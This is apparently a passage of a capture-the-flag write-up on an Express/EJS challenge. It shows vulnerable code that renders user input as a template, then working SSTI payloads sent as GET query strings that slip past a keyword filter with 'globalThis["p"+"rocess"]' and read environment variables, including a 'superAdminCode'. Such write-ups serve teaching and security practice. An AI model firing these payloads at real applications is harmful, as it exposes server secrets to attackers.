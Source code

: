```javascript
        const message = ejs.render(template, { name });

        // Profile keys start with '!!!' to indicate sensitive data
        // Check if the rendered message contains sensitive markers
        if (!message.includes('!!!')) {
            return message;
        }
    }
    
    // Fallback if the template is unsafe or contains sensitive data
    return name;
};

app.listen(process.env.port, () => {
    console.log(`API listening on PORT ${process.env.port}`);
});

module.exports = app;
```

There are two issues in the code. The first issue is that it assumes that an array type `username` argument cannot be provided as the querystring parameter, and that's a wrong assumption. The second issue is that using a ejs template engine to render the message straight from the user-input is not safe, as it can be exploited to inject code.

<br />

First, the attacker would exploit the SSTI vulnerability using the `profileName` endpoint by providing the username `robertf` (known to exist based on the challenge's instructions). The `profileMessage` would include an escaped form of a new variable within the EJS format of <%= some-var %> to steal the value of the environment variable named `superAdminCode`. Escaping is critical since this API endpoint uses a GET request. Since many useful keywords are forbidden by the code, one way to bypass the validation would be `globalThis["p"+"rocess"]` OR `global["p"+"rocess"]`.

<br />

encode the url with URL encoding 

```
GET /profileName?username=robertf&profileMessage=Hello <%= name %> <%= global["p"+"rocess"]["env"]["PWD"] %> 
```

The response will be

````
{"value":"Hello Robert Frank /var/task"}
````

<br />

To get the superAdminCode

```
GET /profileName?username=robertf&profileMessage=Hello <%= name %> <%= globalThis["p"+"rocess"]["env"]["superAdminCode"] %>
```
